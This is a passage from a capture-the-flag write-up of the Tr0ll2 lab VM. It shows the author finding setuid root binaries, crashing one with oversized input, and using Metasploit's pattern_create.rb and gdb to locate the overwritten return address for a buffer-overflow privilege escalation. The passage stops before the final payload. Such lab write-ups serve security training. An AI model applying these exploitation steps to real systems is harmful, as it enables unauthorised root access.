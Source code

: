 ```
-rwsr-xr-x 1 root root 8401 Oct  5 21:17 r00t

door3:
total 16
drwsr-xr-x 2 root root 4096 Oct  5 21:18 .
drwsr-xr-x 5 root root 4096 Oct  4 22:36 ..
-rwsr-xr-x 1 root root 7273 Oct  5 21:18 r00t
```

Three binaries owned by root with a 'sticky bit' set! Seems like we should be able to get our privilege escalation through it.

But that's where the trolls hit again, only one of these binaries is actually useful, other two are just trolling with you - one of them reboots the VM and the other puts you in a restricted shell for a limited period of time. The one of interest that we'll be exploiting is the biggest one. Also, it seems that periodically the binaries are shuffled around the directories (once it's ```door1```, then maybe ```door3``` etc.), so make sure to always keep an eye on the size of the binary you're working on.

Alright, let's get to the fun part! First, let's run the right binary and see what it does.

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ ./r00t 
Usage: ./r00t input
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ ./r00t AAAAAAAAAAAAAA
AAAAAAAAAAAAAA
```

OK, it seems like it's just replaying the input. Let's pass in something big.

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ ./r00t $(python -c 'print "A" * 400')
Segmentation fault
```

Hahaaa! Hello seg-fault, I was expecting you. Let's find out can we overwrite return address and what's the offset.

As always, best tool for the job - ```pattern_create.rb``` in metasploit tools.

```
root@kali:/usr/share/metasploit-framework/tools# ./pattern_create.rb 400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Conveniently ```gdb``` is installed on the host, so we can do our debugging in there. Let's find the offset!

```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
Starting program: /nothing_to_see_here/choose_wisely/door3/r00t Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A

Program received signal SIGSEGV, Segmentation fault.
0x6a413969 in ?? ()
```
